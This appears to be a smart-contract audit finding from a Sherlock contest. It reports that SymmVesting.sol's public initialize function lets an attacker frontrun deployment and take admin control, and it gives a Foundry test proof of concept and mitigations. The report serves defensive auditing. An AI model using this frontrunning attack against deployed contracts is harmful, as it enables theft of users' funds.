 Clean Mustard Aphid

High

# An attacker will gain complete control over the vesting contract through unprotected initialization

### Summary

The public initialize function in SymmVesting.sol will cause a complete loss of funds for all users as an attacker can reinitialize the contract and gain admin privileges.

### Root Cause

In `token/contracts/vesting/SymmVesting.sol:initialize#L55-L85` 'https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/SymmVesting.sol#L55-L85' the initialize function is marked as public without access control, allowing anyone to call it before the legitimate deployment.

### Internal Pre-conditions

1. Contract needs to be deployed but not yet initialized.
2. Legitimate admin has not called initialize function yet.

### External Pre-conditions

1. No external preconditions required.

### Attack Path

  1. Attacker monitors the mempool for the SymmVesting contract deployment.
  2. Attacker frontrunns the legitimate initialization call with their own parameters.
  3. Attacker sets themselves as admin and penalty receiver.
  4. Attacker gains full control of the contract including:
     - Setting vesting schedules
     - Pausing the contract
     - Managing all roles
     - Receiving all penalty fees

### Impact

  The users and protocol suffer a complete loss of funds and control. The attacker gains:
  - Full admin access to manage all aspects of vesting
  - Ability to steal all penalty fees
  - Power to block legitimate users from claiming tokens
  - Control over pausing/unpausing functionality


### PoC

```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.18;
  
  import {Test} from "forge-std/Test.sol";
  import {SymmVesting} from "../contracts/vesting/SymmVesting.sol";
  
  contract InitializeVulnTest is Test {
      SymmVesting vesting;
      address attacker = address(0x1);
      
      function setUp() public {
          // Deploy but don't initialize
          vesting = new SymmVesting();
      }
  
      function testFrontrunInitialize() public {
          // Attacker frontrunning the initialization
          vm.prank(attacker);
          vesting.initialize(
              attacker, // admin
              attacker, // penalty receiver 
              address(1), // pool
              address(1), // router
              address(1), // permit2
              address(1), // vault
              address(1), // symm
              address(1), // usdc
              address(1)  // symm_lp
          );
          
          // Verify attacker has admin role
          assertTrue(vesting.hasRole(vesting.DEFAULT_ADMIN_ROLE(), attacker));
          
          // Verify original admin cannot initialize
          vm.expectRevert("Initializable: contract is already initialized");
          vesting.initialize(
              address(this), // legitimate admin
              address(this), // legitimate receiver
              address(1),
              address(1),
              address(1),
              address(1),
              address(1),
              address(1),
              address(1)
          );
      }
  }
  ```

### Mitigation

  1. Make initialize function internal or private.
  2. Create a factory contract that handles deployment and initialization atomically.
  3. Use a proxy pattern that combines deployment and initialization in one transaction.
  4. Add access control to initialize function if it must remain public.
